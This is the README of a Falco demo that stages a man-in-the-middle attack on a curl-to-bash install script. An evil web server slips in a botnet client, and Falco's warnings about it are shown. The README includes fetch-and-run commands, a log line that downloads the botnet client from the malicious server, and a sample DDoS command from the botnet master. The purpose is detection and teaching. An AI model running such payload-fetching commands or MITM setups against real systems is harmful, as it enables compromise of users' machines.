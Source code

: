 #Demo of falco with man-in-the-middle attacks on installation scripts

For context, see the corresponding [blog post](http://sysdig.com/blog/making-curl-to-bash-safer) for this demo.

## Demo architecture

### Initial setup

Make sure no prior `botnet_client.py` processes are lying around.

### Start everything using docker-compose

From this directory, run the following:

```
$ docker-compose -f demo.yml up
```

This starts the following containers:
* apache: the legitimate web server, serving files from `.../mitm-sh-installer/web_root`, specifically the file `install-software.sh`.
* nginx: the reverse proxy, configured with the config file `.../mitm-sh-installer/nginx.conf`.
* evil_apache: the "evil" web server, serving files from `.../mitm-sh-installer/evil_web_root`, specifically the file `botnet_client.py`.
* attacker_botnet_master: constantly trying to contact the botnet_client.py process.
* falco: will detect the activities of botnet_client.py.

### Download `install-software.sh`, see botnet client running

Run the following to fetch and execute the installation script,
which also installs the botnet client:

```
$ curl http://localhost/install-software.sh | bash
```

You'll see messages about installing the software. (The script doesn't actually install anything, the messages are just for demonstration purposes).

Now look for all python processes and you'll see the botnet client running. You can also telnet to port 1234:

```
$ ps auxww  | grep python
...
root   19983  0.1  0.4  33992  8832 pts/1    S    13:34   0:00 python ./botnet_client.py

$ telnet localhost 1234
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
```

You'll also see messages in the docker-compose output showing that attacker_botnet_master can reach the client:

```
attacker_botnet_master | Trying to contact compromised machine...
attacker_botnet_master | Waiting for botnet command and control commands...
attacker_botnet_master | Ok, will execute "ddos target=10.2.4.5 duration=3000s rate=5000 m/sec"
attacker_botnet_master | **********Contacted compromised machine, sent botnet commands
```

At this point, kill the botnet_client.py process to clean things up.

### Run installation script again using `fbash`, note falco warnings.

If you run the installation script again:

```
curl http://localhost/install-software.sh | ./fbash
```

In the docker-compose output, you'll see the following falco warnings:

```
falco                  | 23:19:56.528652447: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=127.0.0.1:43639->127.0.0.1:9090)
falco                  | 23:19:56.528667589: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=)
falco                  | 23:19:56.530758087: Warning Outbound connection on non-http(s) port by a process in a fbash session (command=curl -so ./botnet_client.py http://localhost:9090/botnet_client.py connection=::1:41996->::1:9090)
falco                  | 23:19:56.605318716: Warning Unexpected listen call by a process in a fbash session (command=python ./botnet_client.py)
falco                  | 23:19:56.605323967: Warning Unexpected listen call by a process in a fbash session (command=python ./botnet_client.py)
```

